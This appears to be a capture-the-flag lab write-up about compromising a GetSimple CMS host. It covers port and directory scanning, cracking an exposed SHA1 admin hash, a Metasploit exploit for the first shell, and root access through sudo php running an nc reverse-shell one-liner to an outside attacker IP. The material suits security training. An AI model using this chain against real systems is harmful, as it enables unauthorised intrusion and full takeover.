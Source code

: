 # Writeup - Get Simple CMS

## Initial analysis

```shell
$ nmap -sV -Pn 10.129.42.249

22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

```

### System
* OS
    * Name: Ubuntu
    * Version: 
* Apache
    * Version: 2.4.41

### GetSimple - CMS

```shell
$ gobuster dir -u http://10.129.42.249 -w /usr/share/dirb/wordlists/common.txt

/.htpasswd            (Status: 403) [Size: 278]
/admin                (Status: 301) [Size: 314] [--> http://10.129.42.249/admin/]
/.hta                 (Status: 403) [Size: 278]                                  
/.htaccess            (Status: 403) [Size: 278]                                  
/backups              (Status: 301) [Size: 316] [--> http://10.129.42.249/backups/]
/data                 (Status: 301) [Size: 313] [--> http://10.129.42.249/data/]   
/index.php            (Status: 200) [Size: 5485]                                   
/plugins              (Status: 301) [Size: 316] [--> http://10.129.42.249/plugins/]
/robots.txt           (Status: 200) [Size: 32]                                     
/server-status        (Status: 403) [Size: 278]                                    
/sitemap.xml          (Status: 200) [Size: 431]                                    
/theme                (Status: 301) [Size: 314] [--> http://10.129.42.249/theme/]  
```

#### Found resources
* http://10.129.42.249/admin/
* http://10.129.42.249/data/users/admin.xml
* https://10015.io/tools/sha1-encrypt-decrypt

### Info
* Version: 3.3.15
* User: admin
* Password: d033e22ae348aeb5660fc2140aec35850c4da997 => (SHA1) => admin

### Access - mrb3n

```shell
msfconsole
search getsimple
use 1
set rhost xxx
set lhost xxx
exploit
```

### Access - root

```shell
sudo -l

sudo /usr/bin/php -a
system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.92 1234 >/tmp/f");
```
